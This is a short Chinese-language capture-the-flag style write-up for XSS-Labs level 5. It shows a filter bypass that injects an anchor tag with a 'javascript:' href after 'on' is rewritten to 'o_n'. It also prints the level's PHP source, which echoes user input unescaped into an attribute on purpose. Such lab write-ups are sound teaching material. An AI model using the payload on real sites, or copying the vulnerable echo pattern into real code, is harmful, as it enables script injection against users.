 ### a href 绕过

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第五关**

使用上一关 payload 发现 `on` 被替换为了 `o_n`

![](https://pic1.imgdb.cn/item/681385b858cb8da5c8d63814.png)

这下基本上大部分事件函数都不能用了

换一下思路尝试注入一个 `a` 标签试试，可以在其 `href` 属性中插入 JS 代码

```
"><a href=javascript:alert()>雾島风起時</a><"
```

点击标签后弹窗

![](https://pic1.imgdb.cn/item/6813872c58cb8da5c8d6386b.png)

看一下源代码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level6.php?keyword=break it out!"; 
}
</script>
<title>欢迎来到level5</title>
</head>
<body>
<h1 align=center>欢迎来到level5</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);	// 做了替换
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level5.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str3)."</h3>";
?>
</body>
</html>
```

